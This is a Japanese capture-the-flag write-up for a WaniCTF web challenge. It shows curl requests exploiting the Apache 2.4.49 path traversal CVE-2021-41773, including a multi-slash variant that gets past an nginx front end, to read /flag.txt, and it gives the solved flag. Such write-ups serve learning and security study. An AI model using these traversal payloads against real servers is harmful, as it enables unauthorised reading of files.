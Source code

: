 # traversal:Web:285pts
Webサーバーにロードバランサーをつけたよ！  
なんかWebサーバーのバージョンがアレらしいけど、秘密のファイル`/flag.txt`はそのままでいっか！  
[https://traversal.web.wanictf.org/](https://traversal.web.wanictf.org/)  
ヒント  
- いろいろ設定に違和感が...  
- [Burp Suite](https://portswigger.net/burp/communitydownload)を使うのがおすすめです  

[web-traversal.zip](web-traversal.zip)  

# Solution
秘密のファイル`/flag.txt`を取得すればよいようだ。  
アクセスしても`It works!`ページなのでどうしようもない。  
Webサーバのバージョンについて言及されているので、配布されたファイルを見る。  
```Dockerfile
FROM httpd:2.4.49

RUN echo "FAKE{This_is_fake_flag}" > /flag.txt

COPY httpd.conf /usr/local/apache2/conf/httpd.conf
```
Apache 2.4.49が動いているようだ。  
このバージョンにはCVE-2021-41773のパストラバーサルがある。  
ひとまずflag.txtを取得してみる。  
```bash
$ curl https://traversal.web.wanictf.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.20.1</center>
</body>
</html>
```
400ではじかれている。  
nginxがロードバランサとして前にいることで、おかしくなっているようだ。  
仕組みについて調査すると「[ALB配下のApache HTTP Serverに対して脆弱性(CVE-2021-41733)の再現ができない理由をNGINXの挙動から考えてみた](https://dev.classmethod.jp/articles/apache-cve-alb-nginx/)」との記事を見つけることができた。  
バックスラッシュにより回避できるようだ。  
```bash
$ curl https://traversal.web.wanictf.org/cgi-bin///////.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt
FLAG{n61nx_w34k_c0nf16_m3r63_5l45h35}
```
flagが表示された。  

## FLAG{n61nx_w34k_c0nf16_m3r63_5l45h35}